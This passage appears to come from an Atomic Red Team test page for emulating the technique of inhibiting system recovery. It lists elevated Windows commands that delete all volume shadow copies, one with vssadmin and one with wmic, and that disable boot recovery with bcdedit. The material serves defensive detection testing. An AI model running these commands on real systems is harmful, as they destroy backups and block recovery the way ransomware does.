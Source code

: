 



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
vssadmin.exe Delete Shadows /All /Quiet
```






<br/>
<br/>

## Atomic Test #9 - Delete VSS - wmic
Delete all volume shadow copies with wmic

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic shadowcopy delete
```






<br/>
<br/>

## Atomic Test #10 - bcdedit
This test leverages `bcdedit` to remove boot-time recovery measures.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
bcdedit /set {default} bootstatuspolicy ignoreallfailures
bcdedit /set {default} recoveryenabled no
```




